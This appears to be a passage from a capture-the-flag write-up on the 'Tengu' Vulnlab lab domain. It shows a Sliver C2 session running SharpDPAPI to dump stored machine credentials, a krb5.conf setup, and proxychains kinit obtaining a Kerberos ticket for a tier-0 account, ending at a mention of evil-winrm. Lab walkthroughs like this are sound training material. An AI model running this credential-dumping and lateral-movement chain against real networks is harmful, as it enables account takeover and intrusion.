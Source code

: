 ```bash
sliver (sidecar-http) > sharpdpapi machinetriage
```
 ![alt text](../assets/image_tengu/sharpdpapi.png)

Now config your ```/etc/krb5.conf``` file like this : 

```bash
[libdefaults]
        default_realm = TENGU.VL
        kdc_timesync = 1
        ccache_type = 4
        forwardable = true
        proxiable = true
        rdns = false
        dns_canonicalize_hostname = false
        fcc-mit-ticketflags = true

[realms]
        TENGU.VL = {
                kdc = dc.tengu.vl
        }

[domain_realm]
        .tengu.vl = TENGU.VL
```
```bash
proxychains -q kinit T0_c.fowler
Password for T0_c.fowler@TENGU.VL:

klist
Ticket cache: FILE:/tmp/krb5cc_0
Default principal: T0_c.fowler@TENGU.VL

Valid starting       Expires              Service principal
08/26/2024 00:20:24  08/26/2024 04:20:24  krbtgt/TENGU.VL@TENGU.VL
        renew until 08/26/2024 04:20:24
```
And evil-winrm
